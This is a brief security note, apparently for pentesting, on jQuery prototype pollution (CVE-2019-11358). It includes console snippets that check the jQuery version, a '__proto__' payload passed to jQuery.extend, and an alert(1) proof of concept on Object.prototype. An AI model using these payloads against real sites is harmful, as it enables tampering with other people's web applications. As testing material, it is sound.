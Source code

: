 # Prototype pollution

### CVE-2019-11358
check version JQuery:
```jQuery && jQuery.fn && console.log(jQuery.fn.jquery);```
check vuln:
```
jQuery.extend(true, {}, JSON.parse('{"__proto__":{"polluted":"yes"}}'));
console.log("After:", ({}).polluted); // если true/ "yes" — уязвимо
```
poc: 
```
// 1) Сначала очистим старые следы (ещё раз, на всякий случай)
try { delete Object.prototype.__poc_alert; } catch(e){}

// 2) Безопасно добавим НЕперечисляемое свойство в Object.prototype
Object.defineProperty(Object.prototype, "__poc_alert", {
value: function(){ alert(1); },
writable: true,
configurable: true,
enumerable: false // важно: НЕ перечисляемое — не ломает for..in
});

// 3) Вызовем его
({}).__poc_alert(); // должен показать alert(1)

// 4) Удалим его (очистка)
delete Object.prototype.__poc_alert;
```
